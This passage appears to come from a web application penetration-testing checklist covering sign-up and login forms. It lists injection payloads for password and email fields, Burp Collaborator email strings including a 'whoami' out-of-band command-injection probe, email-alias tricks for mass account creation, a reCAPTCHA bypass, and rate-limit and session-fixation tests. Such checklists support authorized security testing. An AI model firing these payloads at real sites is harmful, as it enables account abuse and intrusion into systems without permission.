 13. Other Checks

- **[ ] Birthday Field Manipulation:** Test setting birthdays to today or tomorrow for potential birthday discounts.
- **[ ] Password Field Manipulation:** 
  - Payload: `%01%E2%80%AEalert%0D%0A` 
  - Note: Check for behavior if using only `%01`, logging in without CRLF, and if trela is accepted instead of alert.
- **[ ] True/Null/Undefined Values:** Test these values in usernames and other fields for potential errors.
content_copy
Use code with caution.

14. Burp Collaborator Techniques

[ ] Burp Collaborator for Backend Information:

Payloads:

me@id.collaborator.net

me@[id.collaborator.net]

user(;me@id.collaborator.net)@gmail.com

me@id.collaborator.net(@gmail.com)

me+(@gmail.com)@id.collaborator.net

<me@id.collaborator.net>user@gmail.com

Note: Use Burp Collaborator and monitor for back-end information or internal IPs.

[ ] Burp Collaborator for RCE:

Payload: email=me@whoami.id.collaborator.net

Note: Use Burp Collaborator and monitor for back-end information or internal IPs.

15. Additional Vulnerability Categories

[ ] Email Address Manipulation:

Payload: me+1@gmail.com, me+2@gmail.com, me+ANYSTRING@gmail.com

Note: Test these variations to see if multiple accounts can be created.

[ ] ReCAPTCHA Bypass:

Payload: Configure TLS Pass Through for Google reCAPTCHA in Burp Suite.

Note: Test if reCAPTCHA can be bypassed by intercepting and modifying the request.

[ ] Rate Limiting:

Payload: Send multiple sign-up requests in a short period.

Note: Check if the application has rate limiting in place to prevent abuse.

[ ] Session Fixation:

Payload: Set a session cookie before the user logs in and check if the session is maintained.

